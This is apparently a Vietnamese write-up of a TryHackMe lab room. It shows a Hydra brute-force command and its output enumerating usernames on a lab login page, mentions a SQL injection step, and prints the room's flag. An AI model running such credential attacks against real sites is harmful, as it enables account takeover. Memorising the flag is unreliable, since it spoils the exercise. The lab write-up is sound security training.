


# __Name__

Room at https://tryhackme.com/room/lessonlearned

---

??? question "List of the questions solved"

    Question: name
    > Ans: THM{aab02c6b76bb752456a54c80c2d6fb1e}

## __Pentest scenario__

Host: 10.10.235.161

Bài này đề bài đã nêu rõ ràng vậy rồi, ta sẽ focus vào trang login.

### __Reconnaissance__

Sau một vài thao tác với trang web, ta có 1 vài nhận xét:

- Nếu sai username và password thì sẽ xuất ra thông báo "Invalid username and password."
- Có thể có lỗ hỏng SQLi

    ??? tip "Hint"
    

```ps1 title="Hydra Brute force"
└─$ hydra -L $PASS_WORD -p a 10.10.235.161 http-post-form "/index.php:username=^USER^&password=^PASS^:F=Invalid username and password."             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 14:21:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.235.161:80/index.php:username=^USER^&password=^PASS^:F=Invalid username and password.
[80][http-post-form] host: 10.10.235.161   login: martin   password: a
[80][http-post-form] host: 10.10.235.161   login: patrick   password: a
[80][http-post-form] host: 10.10.235.161   login: stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: kelly   password: a
[80][http-post-form] host: 10.10.235.161   login: arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: Martin   password: a
[STATUS] 642.00 tries/min, 642 tries in 00:01h, 8294813 to do in 215:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: karen   password: a
[80][http-post-form] host: 10.10.235.161   login: Patrick   password: a
[STATUS] 680.67 tries/min, 2042 tries in 00:03h, 8293413 to do in 203:05h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: sophia   password: a
[80][http-post-form] host: 10.10.235.161   login: Stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: PATRICK   password: a
[80][http-post-form] host: 10.10.235.161   login: Kelly   password: a
[STATUS] 647.71 tries/min, 4534 tries in 00:07h, 8290921 to do in 213:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Karen   password: a
[80][http-post-form] host: 10.10.235.161   login: veronica   password: a
[80][http-post-form] host: 10.10.235.161   login: Arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: naomi   password: a
[80][http-post-form] host: 10.10.235.161   login: MARTIN   password: a
[STATUS] 652.20 tries/min, 9783 tries in 00:15h, 8285672 to do in 211:45h, 16 active
```

Như hình trên, ta đã tìm được rất nhiều username (còn nhiều hơn thế nữa,...) và thông báo lỗi sẽ là "Invalid password.". Tôi có brute force password 1 user thì thấy việc tìm luôn cả password là điều không khả thi, có thể challenge này chuyên về SQLi khi có username. Wow, và tôi đã thử và có flag như hình bên dưới.



## __What we learned__

1. Hydra
2. SQLi